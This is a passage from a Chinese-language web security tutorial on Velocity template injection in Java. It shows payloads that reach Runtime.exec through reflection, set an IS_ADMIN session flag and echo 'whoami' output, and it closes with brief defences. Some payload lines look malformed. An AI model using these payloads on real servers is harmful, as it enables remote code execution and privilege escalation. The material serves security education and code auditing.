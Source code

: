 


### Java的Velovity模板引擎

在Java中，Velovity使用的较多，简单介绍一下Velovity的基本语法和RCE方法。

在Velovity中，用`#`来表示Velovity的脚步语句，比如`#set`,`#if`,`#foreach`等

```jsp
#if($msg.img)
<img src=$msg.imgs border=0>
#else
<img src="a.jpg">
#end
```

`$`在Velovity中标识一个对象。根据SpEL表达式注入的知识，我们知道一旦可以调用对象，便有办法来构造命令执行语句：

```java
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec()
```

在使用Velovity模板注入中，如果无法进行名住，我们可以修改Cookie来进行权限升级：

```java
$session.setAttribute("IS_ADMIN", "1")
```



在漏洞不存在回显的时候，并且容器为Tomcat7的时候，可以通过如下方法来构造一个有回显的命令执行：

```java
#set($str=$class.inspect("java.lang.String").type
#set($cstr=$class.inspect("java.lang.Character").type

#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami")
$ex.waitFor()     
#set($out=$ex.getInputStream())

#foreach(Si in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end     
```



**代码审计的时候，搜索模板引擎的相关关键字即可**











## 漏洞防御

- 避免用户能够直接控制模板的熟并对其进行过滤
- 如需要向用户公开模板编辑，则可以选择无逻辑的模板引擎，如Handlebars、Moustache等
- 
